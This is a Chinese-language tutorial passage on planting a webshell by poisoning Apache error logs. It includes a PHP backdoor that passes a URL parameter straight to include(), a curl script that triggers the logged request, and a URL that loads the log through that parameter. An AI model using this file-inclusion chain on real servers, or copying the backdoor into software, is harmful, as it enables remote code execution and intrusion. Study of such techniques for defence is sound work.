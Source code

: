 ### 0x21：利用apache的错误日志进行webshell的注入&#x20;

用了apche服务器的错误日志文件，当访问一个不存在的连接时,日志中会记录下这样的一句话

\[Tue Jan 14 09:48:01.664731 2014] \[core:error] \[pid 9412:tid 1876] (20024)The given path is misformatted or contained invalid characters: \
\[client ::1:10248] AH00127: Cannot map GET /shell/ HTTP/1.1 to file

这个和很多CMS中的功能很类似，会记录一些运行信息

1. 出错信息，包含导致出错的原始语句，问题也就发生在这里，即用户可能有机会控制这个日志文件的内容
2. 访问记录(例如: 请求URL)，和(1)同样的道理，这属于用户可控的信息
3. 其他的HTTP相关信息

后门back door: 这是留待以后用来引入带后门的日志文件使用的

```php
<?php
    include($_GET['f']);  
?>

# 攻击触发脚本，向日志文件中打入payload
# http://localhost/shell/attack.php



```

```php
<?php  
    // 1. 初始化  
    $ch = curl_init();  
    // 2. 设置选项，包括URL  
    curl_setopt($ch, CURLOPT_URL, "http://localhost/shell/");  
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 0);  
    curl_setopt($ch, CURLOPT_HEADER, 0);  
    curl_setopt($ch, CURLOPT_USERAGENT, "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.8.1.1) Gecko/20061204 Firefox/4");  
    curl_setopt($ch, CURLOPT_FOLLOWLOCATION,true);  
    // 3. 执行并获取HTML文档内容  
    $output = curl_exec($ch);  
    // 4. 释放curl句柄  
    curl_close($ch);  
?>  
```

执行这个脚本后，会在apache的错误日志中留下原始的访问记录

\[Tue Jan 14 09:48:01.664731 2014] \[core:error] \[pid 9412:tid 1876] (20024)The given path is misformatted or contained invalid characters: \
\[client ::1:10248] AH00127: Cannot map GET /shell/ HTTP/1.1 to file

之后把log的地址当做参数传入即可，这里log位置须自行查找&#x20;

> http://localhost/shell/index.php?f=E:\wamp\logs\apache\_error.log

### 0x22: 利用字符的运算符来进行webshell的构造&#x20;
